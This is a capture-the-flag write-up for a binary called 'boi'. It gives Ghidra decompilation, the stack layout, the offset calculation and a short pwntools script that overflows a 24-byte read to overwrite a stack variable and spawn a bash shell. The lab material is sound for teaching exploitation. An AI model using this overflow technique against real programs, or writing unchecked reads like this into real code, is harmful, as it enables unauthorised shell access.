

# Download The Challenge
[Challenge](./boi)

# Ghidra Decompilation
```C
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 usr_buffer;
  undefined8 local_30;
  undefined4 uStack_28;
  int target;
  undefined4 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  usr_buffer = 0;
  local_30 = 0;
  local_20 = 0;
  uStack_28 = 0;
  target = L'\xdeadbeef';
  puts("Are you a big boiiiii??");
  read(0,&usr_buffer,24);
  if (target == L'\xcaf3baee') {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

So we must overwrite the value of target with `0xcaf3baee` to pop a shell.

# Stack Layout
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         AL:1           <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[2]:     00400659(W), 
                                                                                                   004006ca(R)  
             undefined4        Stack[-0x20]:4 local_20                                XREF[1]:     00400677(W)  
             undefined4        Stack[-0x24]:4 target                                  XREF[2]:     0040067e(W), 
                                                                                                   004006a5(R)  
             undefined8        Stack[-0x30]:8 local_30                                XREF[1]:     00400667(W)  
             undefined8        Stack[-0x38]:8 usr_buffer                              XREF[2]:     0040065f(W), 
                                                                                                   0040068f(*)  
             undefined4        Stack[-0x3c]:4 local_3c                                XREF[1]:     00400649(W)  
             undefined8        Stack[-0x48]:8 local_48                                XREF[1]:     0040064c(W)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:0040054d(*), 004007b4, 
                                                                                          00400868(*)  
        00400641 55              PUSH       RBP
```

# Insight
`target` is `0x38 - 0x24` or `20` (in decimal) bytes away from `usr_buffer`. So we will send a payload of `20` dummy bytes and inject `0xcaf3baee` at the very end.

# Exploit
```python
#!/bin/python
from pwn import *
target = process("./boi")
payload = b"0"*20 + p32(0xcaf3baee)
target.sendline(payload)
target.interactive()
```

# Final Demonstration
